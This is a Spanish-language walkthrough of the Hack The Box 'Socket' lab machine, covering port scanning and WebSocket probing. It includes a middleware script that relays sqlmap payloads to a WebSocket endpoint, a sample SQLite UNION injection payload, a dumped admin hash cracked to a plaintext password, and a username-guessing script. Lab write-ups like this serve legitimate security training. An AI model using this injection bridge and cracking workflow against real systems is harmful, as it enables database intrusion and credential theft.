[Read on English](README.md)

# Socket - WriteUp/Walkthrought [HTB]

## PWNED By 14Wual

[Github](https://github.com/14wual):  14wual <br>
[Twitter](https://twitter.com/14wual): 14wual <br>
[YouTube](https://youtube.com/@wual): @wual <br>
[Paǵina Web](https://14wual.github.com) <br>

## Acerca del Laboratorio

**Nivel**: Medium <br>
**Sistema Operativo**: Linux <br>
**Rating**: 3.3 <br>
**Release Date**:  <br>
**IP**: 10.10.11.206 <br>

## Recopilación

Antes de nada, nos configuramos el laboratorio, encendiendo la `vpn`, y configurando nuestra extensión `target`(s4vitar) de polybar: `settarget Socket 10.10.11.206`

Ahora sí, empezamos usando **NMAP** para encontrar los puertos abiertos. Comando:

```
sudo nmap -sCV -T5 10.10.11.206 -oN nmap-basic.txt
```

Output: 

```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como tiene un puerto 80, vamos ha vistar primero, su pagina web. El script nos ha resuelto el `DNS`, así que antes, modificaremos el archivo `/etc/hosts` con el siguiente comando: `sudo nano /etc/hosts`. Añadimos al final el siguiente contenido:

```
10.10.11.206    qreader.htb
```


También, se puede hacer, haciendo uso del comando echo: 

```
sudo echo "10.10.11.206    qreader.htb" >> /etc/hosts
```

Teniendo esto listo, ahora sí, vamos ha entrar en la página web:

```
brave-browser http://qreader.htb/ &
```

El primer contenido que nos encontramos es el siguiente:



En primera instancia, vemos que podremos subir contenido (imágenes en este caso, aunque strings de texto parece que también). Por otro lado vemos que la app, está programada en flask, y que podemos descargar la misma app, para windows y linux. Vamos ha decargar el comprido y vemos que trae.



Este comprimido zip (descomprimimos con el comando `unzip <file.zip>`) nos trae una carpeta llamada **app**, y dentro de esta encontramos un **ejecutable** y una imágen test, que al **escanearla**, nos da un texto: `kavigihan`.

Al ejecutar el archivo: `./qreader` nos aparece una interfaz gráfica, sencilla con un cuadro de texto y un visualizador de imágenen. Si guardamos la imágen y la escaneamos, vemos que el **qr** es completamente funcional.



Por ahora, vamos ha dejar la app apartada por el momento, y vamos ha volver a escanear los puertos por si encontramos alguna otra cosa interesante. Comando: 

```
nmap -sCV -p- -T5 10.10.11.206
```

Este ha sido el output que me ha devuelto.

<details>
<summary>Output</summary>

```
Not shown: 61831 closed tcp ports (conn-refused), 3701 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
5789/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, GetRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 25 May 2023 08:06:43 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 25 May 2023 08:06:44 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 25 May 2023 08:06:59 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 25 May 2023 08:07:00 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.93%I=7%D=5/25%Time=646F1715%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x202
SF:5\x20May\x202023\x2008:06:43\x20GMT\r\nServer:\x20Python/3\.10\x20webso
SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
SF:onnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\
SF:n")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Thu
SF:,\x2025\x20May\x202023\x2008:06:43\x20GMT\r\nServer:\x20Python/3\.10\x2
SF:0websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/pla
SF:in\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocke
SF:t\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20requ
SF:est\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:
SF:\x20Thu,\x2025\x20May\x202023\x2008:06:44\x20GMT\r\nServer:\x20Python/3
SF:\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20t
SF:ext/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20W
SF:ebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\
SF:x20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Thu,\x2025\x20May\x202023\x2008:06:44\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Thu,\x2025\x20May\x202023\x2008:06:59\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Thu,\x2025\x20May\x202023\x2008:07:00\x20GMT\r\nSer
SF:ver:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCo
SF:ntent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x
SF:20open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x
SF:20valid\x20HTTP\x20request\.\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

Tenemos un nuevo puerto `:5789/tcp`. Si entramos por el navegador, nos devuelve el siguiente mensaje:

```
Failed to open a WebSocket connection: invalid Connection header: keep-alive.

You cannot access a WebSocket server directly with a browser. You need a WebSocket client.
```



Este mensaje nos quiere decir que no podemos acceder de manera directa al server WebSocket, asi que vamos ha programar un `script python` que lo realice, a ver si de esta manera, si nos deja entrar.

El script incial es el siguiente:

```python
import websocket

def on_message(ws, message):print("Mensaje recibido:", message)
def on_error(ws, error):print("Error:", error)
def on_close(ws):print("Conexión cerrada")
def on_open(ws):print("Conexión establecida")

if __name__ == "__main__":
    websocket.enableTrace(True)
    ws = websocket.WebSocketApp("ws://10.10.11.206:5789",
        on_message=on_message,
        on_error=on_error,
        on_close=on_close)
    ws.on_open = on_open
    ws.run_forever()

```

Al ejecutarlo nos da la siguiente respuesta:

```
-- request header ---
GET / HTTP/1.1
Upgrade: websocket
Host: 10.10.11.206:5789
Origin: http://10.10.11.206:5789
Sec-WebSocket-Key: m65M917QvJsqxzCM9uaeMg==
Sec-WebSocket-Version: 13
Connection: Upgrade


-----------------------
--- response header ---
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: 7QO5e2ptoGHglOXqH8IWgmbR70Y=
Date: Thu, 25 May 2023 08:34:19 GMT
Server: Python/3.10 websockets/10.4
-----------------------
Conexión establecida
```

En la función `on_open` vamos ha añadir la siguente línea:

```python
ws.send("Hola, servidor!")
```

Vamos ha ver las respuesta de servidor:

```
++Sent raw: b'\x81\x8fd\x89\xd7e,\xe6\xbb\x04H\xa9\xa4\x00\x16\xff\xbe\x01\x0b\xfb\xf6'
++Sent decoded: fin=1 opcode=1 data=b'Hola, servidor!'
++Rcv raw: b'\x88\x02\x03\xf3'
++Rcv decoded: fin=1 opcode=8 data=b'\x03\xf3'
++Sent raw: b'\x88\x82p\xefs/s\x07'
++Sent decoded: fin=1 opcode=8 data=b'\x03\xe8'
error from callback <function on_close at 0x7fa430a89260>: on_close() takes 1 positional argument but 3 were given
Error: on_close() takes 1 positional argument but 3 were given
```

Vamos ha poner 3 argumentos a la función `on_close` >> `def on_close(ws, o, u)` debido al mensaje de error que nos ha reportado al cerrar la conexión: `Error: on_close() takes 1 positional argument but 3 were given`. Actualmente, se debería de ver así (he aprovechado para traducir):

```python
import websocket

def on_message(ws, message):print("Message received:", message)
def on_error(ws, error):print("Error:", error)
def on_close(ws, o, u):print(f"Conexión Close: Arg 1: {o}, Arg2: {u}")
def on_open(ws,):
    print("Established connection")
    ws.send("Hola, mundo!")

if __name__ == "__main__":
    websocket.enableTrace(True)
    ws = websocket.WebSocketApp("ws://10.10.11.206:5789",
        on_message=on_message,
        on_error=on_error,
        on_close=on_close)
    ws.on_open = on_open
    ws.run_forever()
```

Por otro lado, hice este pequeño script para poder leer las respuestas `raw`, 

```python
response = b'<texto-bytes>'

try:
    iso_text = response.decode('iso-8859-1')
    print("[✓]iso-8859-1: ", iso_text)
except Exception as e:print("[✗]E:", e)

try:
    bytes_utf8 = iso_text.encode('utf-8')
    print("[✓]utf-8: ", bytes_utf8.decode('utf-8'))
except Exception as e:print("[✗]E:", e)

```

Podeís verlo aquí: [script](scripts/read-rcv-raw.py). Si seguimos con el script principal, ahora vamos ha intentar enviar peticiones json, para luego, poder intentarlas pasar por `sqlmap` e intentar hacer `sqli`:

# Explotación 

```python
request = {
    "test": "test"
}
ws.send(json.dumps(request))
```

Vamos ha hacer a pegar el script completo para ver el resultado actual (ver [script test](scripts/WebSocketTest.py)), y ejecutarlo, para ver la respuesta:

```python
import websocket, json

def on_message(ws, message):print("Message received:", message)
def on_error(ws, error):print("Error:", error)
def on_close(ws, o, u):print(f"\n---Conexión Close: Arg 1: {o}, Arg2: {u}---")

def on_open(ws):
    print("Established connection")

    request = {"test": "test"}
    mess = (json.dumps(request))

    print("--- Message sent ---\n",mess)
    ws.send(mess)

if __name__ == "__main__":
    websocket.enableTrace(True)
    ws = websocket.WebSocketApp("ws://10.10.11.206:5789",
        on_message=on_message,
        on_error=on_error,
        on_close=on_close)
    ws.on_open = on_open
    ws.run_forever()
```

Output:

```python
--- Message sent ---
 {"test": "test"}
++Sent raw: b'\x81\x90\xde[\x04G\xa5yp"\xad/&}\xfeyp"\xad/&:'
++Sent decoded: fin=1 opcode=1 data=b'{"test": "test"}'
++Rcv raw: b'\x81R{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
++Rcv decoded: fin=1 opcode=1 data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
Message received: {"paths": {"/update": "Check for updates", "/version": "Get version information"}}
```

Viendo esto (`data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'`), vamos modificar el script para ver version y paths:

```python

def on_open(ws):
    print("Established connection")

    request = {"version": "1.0"}
    ws.send(json.dumps(request))

if __name__ == "__main__":
    websocket.enableTrace(True)
    ws = websocket.WebSocketApp("ws://10.10.11.206:5789/update", ...)
```

En primer lugar probaremos con `url/update` por si nos reporta cuál es la versión actual. El output es el siguiente:

```
data=b'{"message": "Version 0.0.2 is available to download!"}'
```

Así que ahora vamos ha modificar el `request = {"version": "1.0"}` por la versión actual: `request = {"version": "0.0.2"}` para ver que nos reporta:

Output:  `data=b'{"message": "You have the latest version installed!"}`

Modificaremos el `url/update` por `url/version` dejando el `request` con la versión más nueva por si nos reporta información sobre la versión:

Output:  `Message received: {"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}`

Viendo estas respuestas, vamos ha intentar hacer algo de `sqli`, para ello, vamo ha montar un servidor http en el puerto 80 (local) donde usaremos `sqlmap` para que valla envíando `payloads`, el script está basado en el script de  [**ytnuobgub**](https://ytnuobgub.gitbook.io/htb/open-seasons-beta/socket). En resumidas cuentas este script lo que hace es crear un servidor de `middleware` que permita enviar parámetros (que enviará `sqlmap`) de `solicitud HTTP` al `server WebSocket` recibir la respuesta correspondiente.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import urlparse
from websocket import create_connection
import json, webbrowser

ws_server = "ws://10.10.11.206:5789/version"

def sendPayloads(payload):
	ws = create_connection(ws_server)
    
	request = {"version": payload}
	ws.send(json.dumps(request))
    
	response = ws.recv()
	ws.close()

	if response:return response
	else:return None

class app:

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self, content_type="text/plain") -> None:
			self.send_response(200)

			try:payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:payload = None

			if payload:content = sendPayloads(payload)
			else:content = 'No payloads specified.'

			self.send_header("Content-type", content_type)
			self.end_headers()

			self.wfile.write(content.encode())
			
			return
 
	def MiddleWareServer(host_port, content_type="text/plain"):

		page = f"http://{host_port[0]}:{host_port[1]}"
		
		print("[✓] Starting MiddleWare Server")
		try:httpd = app._TCPServer(host_port, app.CustomHandler)
		except Exception as e:print("[✗]E: ", e)

		print(f"[✓] Server started in {page}/")

		print(f"[Info] Send payloads in {page}/?id=!payloads")
		print(f"[Info] Opening Server in Browser")
		webbrowser.open(f"{page}/?id=0.0.2")

		httpd.serve_forever()

	class _TCPServer(TCPServer):
		allow_reuse_address = True
	
if __name__ == '__main__':
	try:app.MiddleWareServer(('127.0.0.1', 1014))
	except KeyboardInterrupt:pass
```

Podeis ver el script [aquí](scripts/WebSocketPayloads.py)



# Obtención

Ejecutamos el script, en nuestra terminal, escribimos el siguiente comando para ejecutar el `sqlmap`:

```
sqlmap -u "http://127.0.0.1:1014/?id=1" --batch --dbms SQLite --risk 3 --level 5 --flush-session
```

Si de esta manera, `sqlmap`, reporta que no pude realizar `sqli`, cambiaremos el **id** actual (`?id=0.0.2`) por `?id=1`.

En el output del script, todas las peticiones que realiza `sqlmap`: `127.0.0.1 - - [25/May/2023 15:14:06] "GET /?id=-1542%27%29%20OR%203852%3D3852%20AND%20%28%27tTZb%27%20LIKE%20%27tTZb HTTP/1.1" 200 -` Y en el output de de la terminal, entre todo, podremos ver el siguiente mensaje que la `ddbb` es vulnerable a SQLite:

```
the back-end DBMS is SQLite
back-end DBMS: SQLite
```

Y nos da un ejemplo de Payload:

```
id=1" UNION ALL SELECT NULL,NULL,CHAR(113,118,106,120,113)||CHAR(113,76,67,87,118,85,75,121,67,84,118,113,89,109,100,78,107,65,118,100,67,79,90,115,73,97,69,84,66,110,80,66,117,88,70,103,89,75,119,68)||CHAR(113,118,120,107,113),NULL-- Ejwv
```

A parte, vamos ha a ver las tablas que nos ha reportado (somn un total de 6, `reports, info, users, sqlite_sequence, answers & versions`):

```
Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
+----+-------+----------------------------------+----------+

```

Ya tenemos un usuario y contraseña! Es un hash, vamos hya descifrarlo:

```
hash-identifier 0c090c365fa0559b151a43e0fea39710
```



Como `hash-identifier` nos identificó `md5`, vamos ha usar esta [página web](https://www.md5online.org/md5-decrypt.html) para desencriptar.



Ya lo tenemos! La contraseña es: `admin:denjanjade122566`. Si probamos ha iniciar el ssh, no podremos iniciar porque aun no tenemos el usuario, pero si leemos la tabla `answers`, podemos ver que un admin, termina todas sus respuestas firmando con su nombre: **Thomas Keller**, ejemplo:

```
Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller
```

Tabla `answers`:

```
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
```

Así que lo que vamos ha hacer es un script python, para que nos printee un output, con todos los posibles nombres de usuario que puede tener el nombre de **Thomas Keller**, [ver script](scripts/create-usernames.py):

```python
import itertools

def generate_usernames(full_name):
    full_name = full_name.lower()
    names = full_name.split()
    initials = [n[0] for n in names]
    last_name = names[-1]

    combinations = []
    for r in range(1, len(initials) + 1):combinations.extend(list(itertools.combinations(initials, r)))

    usernames = []

    for combo in combinations:
        username = "".join(combo) + last_name
        usernames.append(username)

    return usernames

full_name = "Thomas Keller"
usernames = generate_usernames(full_name)

for username in usernames:print(username)
```

Al ejecutar el script me ha dado generado los siguientes usuarios: `tkeller, kkeller, tkkeller` así que vamos ha ejecutar el siguiente comando para guardarlo en un archivo:

```
python3 create-usernames.py >> users.txt
```

